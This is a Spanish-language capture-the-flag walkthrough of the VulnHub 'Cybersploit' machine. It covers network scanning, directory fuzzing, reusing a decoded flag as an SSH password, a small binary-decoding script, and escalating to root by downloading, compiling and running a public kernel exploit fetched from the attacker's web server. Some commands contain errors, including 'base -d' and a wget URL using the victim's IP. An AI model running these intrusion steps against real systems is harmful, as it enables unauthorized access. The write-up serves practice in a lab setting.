


Cybersploit
Plataforma: VulnHub · Dificultad: Fácil · Fecha: Agosto 2026
Reconocimiento
sudo arp-scan -I eth0 --localnet --ignoredupsResultado:
192.168.1.103Una vez obtenida la IP vamos a realizar un reconocimiento para detectar puertos abiertos:
nmap -p- 192.168.1.103 -sS --min-rate 5000 -n -Pn -vvv -oG allPortsResultado:
22/tcp open ssh syn-ack ttl 64
80/tcp open http syn-ack ttl 64Tenemos 2 puertos abiertos. Vamos a realizar un escaneo más exhaustivo para obtener más información de los servicios que están corriendo:
nmap -p22,80 192.168.1.103 -sCV -oN targetedEn este escaneo no encontramos ninguna relevante. Tener en cuenta que con la cabecera de SSH se puede obtener el codename del SO. Esto es solo informativo, no sirve para nada en la explotación del sistema.
Enumeración
Ahora vamos a visitar la web y ver qué podemos enumerar para realizar la explotación:

Como se ve en la imagen, en esta web no se visualiza nada interesante más allá de un mensaje dejado por algún tipo de hacker, pero si investigas en el código de la web:
CTRL + UPodemos ver en una de las últimas secciones el siguiente comentario:
<!-------------username:itsskv--------------------->Este comentario nos revela un nombre de usuario el cual puede ser un usuario del sistema que nos permita acceder al sistema por SSH. Por ahora nos quedamos con este username.
Después de seguir viendo el código fuente no encontré nada más interesante, por lo que decidí aplicar fuzzing a nivel de rutas para encontrar directorios y archivos de la web, usando la herramienta #gobuster.
gobuster dir -u http://192.168.1.103 -w /usr/share/wordlist/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,txt,jpeg,gif,jpg,htmlSe encontraron varias rutas:
/robots.txt
/hacker.gifDonde el archivo robots.txt contenía la primera flag:
echo "R29vZCBXb3JrICEKRmxhZzE6IGN5YmVyc3Bsb2l0e3lvdXR1YmUuY29tL2MvY3liZXJzcGxvaXR9" | base -d
Good Work !
Flag1: cybersploit{youtube.com/c/cybersploit}Newlerning
Y aquí viene una de las habilidades y costumbres que todo hacker debería tener, que es imaginación y probar todas las posibilidades.
¿Y por qué digo esto?, porque al obtener esta flag solo la tomé como una flag, no le di mayor importancia, así que seguí enumerando la máquina en busca de vectores de ataque, pero no encontraba nada. Probé la #esteganografia en el gif, pero nada. A pesar de ser una máquina de dificultad fácil me estaba rindiendo ya que no encontraba nada, y tal vez piensen que era muy fácil darse cuenta de la situación, pero para mí no lo fue, hasta que después de muchas horas buscando decidí buscar ayuda en internet. En un writeup de la web llamada Medium, vi que la flag se usa como password para el usuario itsskv en SSH, o sea, es la password de este usuario, cosa que me decepcionó un poco, pero rápido lo tomé como una nueva enseñanza Probar Todas las Posibilidades:
ssh itsskv@192.168.1.103Al ingresar la flag como password e ingresar sentí que la victoria no era mía, pero seguí adelante, con energías renovadas para enumerar el sistema y poder escalar privilegios.
La flag en este caso flag2 son unas cadenas en binario:
01100111 01101111 01101111 01100100 00100000 01110111 01101111 01110010 01101011 00100000 00100001 00001010 01100110 01101100 01100001 01100111 00110010 00111010 00100000 01100011 01111001 01100010 01100101 01110010 01110011 01110000 01101100 01101111 01101001 01110100 01111011 01101000 01110100 01110100 01110000 01110011 00111010 01110100 00101110 01101101 01100101 00101111 01100011 01111001 01100010 01100101 01110010 01110011 01110000 01101100 01101111 01101001 01110100 00110001 01111101Creé un script para hacer esta tarea. Sé que hay muchas herramientas y librerías en Python que pueden hacerlo fácilmente, pero para practicar un poco de Python hice uno como mejor pude:
#!/usr/bin/python3
import time
def extract_info():
with open("data" , "r") as f:
data = f.read()
list_bits = data.strip().split(" ")
#print(list_bits)
return list_bits
def convert(lista_bits):
values = [1,2,4,8,16,32,64,128]
all_values = []
for lista in lista_bits: # 11100110 = 103
lista = lista[::-1]
#print(lista)
cont = 0
decimal = 0
for i in range(0,8): # 0
for b in lista: # 01
if b == "0":
cont+=1
else: # Si b = 1
if cont == 0:
decimal += values[0]
cont+=1
else:
decimal += values[cont]
cont+=1
#print(decimal)
#time.sleep(1)
print(f"\nValues Decimal -> {decimal}")
all_values.append(decimal)
break
return all_values
def convert_to_ascii(all_values):
char = "".join(chr(x) for x in all_values) # chr -> convierte una decimal a su caracter correspondiente en la tabla ascii3
print(char)
def main():
list_bits = extract_info()
all_values = convert(list_bits)
convert_to_ascii(all_values)
#for decimal in all_values:
#print(f"\nValues Decimal the [{bits}] -> {decimal}")
if __name__ == "__main__":
main()flag2: cybersploit{https:t.me/cybersploit1}Para ver la flag tienes que convertir esa cadena en decimal y una vez convertida ver los valores en ASCII de cada uno de los números representados.
La enumeración de este no fue mucho más sencilla, probé todas las técnicas que conocía y tampoco encontraba el camino, pero en este caso probé algo básico que no había probado hasta el momento que lo leí en una de mis notas: la versión del kernel, sí, ya sé, lo básico de lo básico en escalada de privilegios.
uname -a
3.13.0-32-genericExplotación
Al ver esta versión y buscar en el navegador de confianza encontré que para esta versión de kernel había diferentes exploit que te daban ciertos privilegios, entre ellos uno que te proporcionaba una consola interactiva. No lo pongo aquí para que hagan la búsqueda por ustedes mismos ;).
Una vez encontrado el exploit programado en C lo descargué, y con python3 inicié un servicio web desde la máquina atacante para desde la máquina víctima poder descargarlo y ejecutarlo:
Atacante:
python3 -m http.server 8000Víctima:
Comprobamos que esté wget:
which wgetResultado:
/usr/bin/wgetY sí está, por lo que podemos traernos el exploit:
wget "http://192.168.1.103:8000/37292.c"Una vez traído el script a la máquina víctima queda compilarlo:
gcc 37292.c -o exploitLo ejecutamos y listo, tenemos una consola interactiva como root.
flag3: cybersploit{Z3X21CW42C4 many many congratulations !}